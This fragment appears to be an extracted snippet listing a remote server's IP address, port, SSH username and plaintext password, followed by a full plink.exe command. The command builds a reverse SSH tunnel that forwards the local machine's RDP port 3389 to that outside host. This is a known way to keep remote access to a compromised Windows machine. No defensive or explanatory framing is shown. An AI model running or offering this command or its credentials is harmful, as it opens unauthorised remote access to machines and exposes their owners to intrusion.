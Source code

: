 **Server IP**: 168.57.191.100  
**Port**: 3389  
**Connection type**: ssh  
**Username**: $had0w  
**Password**: thruthW!llS3tUfree  

**Full command**: plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 168.57.191.100